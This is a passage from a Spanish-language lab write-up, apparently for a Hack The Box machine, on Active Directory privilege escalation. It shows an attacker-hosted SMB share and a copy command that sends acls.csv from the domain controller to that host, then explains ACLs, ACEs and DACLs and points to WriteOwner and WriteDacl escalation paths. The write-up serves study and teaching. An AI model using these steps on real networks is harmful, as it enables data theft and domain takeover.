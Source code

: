 ```bash
r1pfr4n@parrot> sudo smbserver.py shares $(pwd) -smb2support
```

`smbserver.py` es una herramienta que permite crear un servidor SMB para compartir archivos entre máquinas. El parámetro `shares` define el nombre del recurso compartido, `$(pwd)` toma el directorio de trabajo actual como la ubicación para compartir y `-smb2support` habilita el soporte para el protocolo SMBv2. 

En la máquina del DC, se utiliza el comando `copy` para transferir el archivo a la máquina atacante a través del recurso compartido SMB:

```powershell
copy acls.csv \\10.10.14.3\shares\acls.csv
```

#### Análisis de las ACLs

En el contexto de Active Directory, se manejan diferentes conceptos cuando se trata de asignar o limitar permisos y accesos a los diferentes objetos del dominio. Aquí es donde se introduce la Lista de Control de Acceso, o **ACL** por sus siglas en inglés (Access Control List).

Una **ACL** es un conjunto de reglas que define quién (usuarios o grupos) tiene permisos y qué tipo de operaciones pueden realizar sobre un objeto determinado. Los objetos pueden ser cualquier componente del dominio en Active Directory, como una cuenta de usuario, un grupo, una unidad organizativa, entre otros.

Cada regla en una **ACL** se conoce como Entrada de Control de Acceso o **ACE** (Access Control Entry). Un **ACE** especifica el acceso otorgado o denegado a un solo usuario o grupo.

Dentro de una **ACL**, existen Listas de Control de Acceso Discrecionales o **DACLs**. Una **DACL** es un componente de una **ACL** que lista los usuarios y los grupos que tienen permisos para acceder a un objeto, así como los usuarios y los grupos a los que se les niega el acceso. A diferencia de la **ACL** en su totalidad, que puede ser vista por cualquier usuario, una **DACL** puede ser configurada y vista solo por el propietario del objeto o un administrador.

Con estos conceptos en mente, el análisis del archivo `acls.csv` toma relevancia. Este archivo, abierto con **libreoffice**, contiene **detalles sobre las ACLs y las DACLs** correspondientes en el dominio, incluyendo el objeto, el tipo, el GUID, el nombre principal, el tipo de principal, los derechos de Active Directory, el tipo de **ACE**, el tipo de control de acceso y si la **ACL** es heredada:

![imagen 2](Pasted image 20230802134045.png)

Al inspeccionar las **ACLs**, se encuentra una **posible vía de escalada de privilegios.** Se descubre que el usuario Tom tiene el privilegio `WriteOwner` sobre el usuario Claire:

![imagen 2](Pasted image 20230802134325.png)

El privilegio `WriteOwner` permite al usuario Tom modificar el propietario del objeto del usuario Claire. Esto significa que Tom tiene el permiso para reasignar la propiedad de la cuenta de Claire, lo que incluye **cambiar la contraseña de Claire** y obtener control total sobre la misma.

Además, se descubre que Claire tiene el privilegio `WriteDacl` sobre el grupo **Backup_Admins**:

![imagen 2](Pasted image 20230802134357.png)
